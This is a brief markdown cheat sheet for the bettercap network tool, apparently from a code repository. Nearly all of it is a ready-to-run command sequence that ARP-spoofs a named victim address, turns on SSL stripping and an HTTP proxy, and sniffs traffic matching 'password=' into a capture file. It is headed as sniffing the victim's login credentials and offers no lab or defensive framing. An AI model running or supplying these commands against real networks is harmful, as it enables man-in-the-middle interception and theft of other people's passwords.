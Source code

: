 # bettercap
- Start:
```bash
bettercap -iface _your_interface_
```
- -Sniffing of the victim login credentials a Layer 2 Network

```bash
set http.proxy.sslstrip true
set net.sniff.verbose false
set arp.spoof.targets 192.168.1.6
arp.spoof on
http.proxy on
net.sniff on
set net.sniff.filter not arp (default=not arp)
set net.sniff.local true
set net.sniff.regexp .*password=.+
set net.sniff.verbose true
set net.sniff.output passwords.pcap
```

# Dood luck ;)
